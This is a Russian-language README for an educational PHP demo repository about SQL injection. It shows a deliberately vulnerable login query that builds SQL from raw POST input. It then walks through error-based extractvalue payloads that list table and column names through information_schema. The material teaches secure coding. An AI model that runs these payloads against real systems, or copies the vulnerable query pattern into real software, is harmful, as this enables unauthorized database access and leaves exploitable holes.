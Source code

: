 # SQL injection on PHP

Пример применения sql инъекций на PHP. Эта работа создана в образовательных целях и показывает программистам как не надо писать код. Данный сайт является примером эксплуатации уязвимости типа error-based. В основе примера обычная форма авторизации на сайте, состоящая из двух полей логина и пароля.

<p>
  <a href="LICENSE">
    <img src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=flat-square" alt="Software License" />
  </a>
</p>

## Требуется

* Запущеный OpenServer или аналоги с PHP и MySQL
* GIT
* Browser или Postman

## Установка и подготовка к запуску

1.  Сохранить репозиторий на своём ПК

```
git clone https://github.com/HenkCord/sql-injection-example-php.git
```

2.  Сформировать базу данных открыв в браузере

```
/init_db.php
```

3.  Открыть основной файл

```
/index.php
```

## Приступим

Как выглядит уязвимый код на PHP

```php
$login = $_POST['login'];
$password = $_POST['password'];
$sql = "SELECT id FROM users WHERE login = '$login' and password = '$password'";
if ($result = mysqli_query($link, $sql)) {
    if (mysqli_num_rows($result)) {
        $authenticated = true;
    } else {
        $error_message = 'Не правильные логин или пароль';
    }
} else {
    $error_message = mysqli_error($link);
}
```

1.  Пробуем авторизоваться, подставив в любое поле кaвычку (‘), в результате чего получаем ошибку.

В результате получаем такой конечный вид запроса к базе данных, который вызывает ошибку:

```sql
SELECT id FROM users WHERE login = ''' and password = '';
```

2.  Получаем название первой таблицы из текущей базы данных:

```sql
' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) -- comment
```

для получения второй и последующих названий таблиц необходимо поменять `limit 0,1` на `limit 1,1` и тд.

3.  Далее, зная название существующих таблиц в базе данных, требуется найти названия атрибутов:

```sql
' and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() and table_name='название таблицы' limit 0,1))) -- comment
```

для получения второго и последующих названий атрибутов необходимо поменять `limit 0,1` на `limit 1,1` и тд.

4.  Конечная цель получить текущий баланс баллов пользователя.

## License

The MIT License (MIT). Please see [License File](LICENSE.md) for more information.

[link-author]: https://github.com/HenkCord
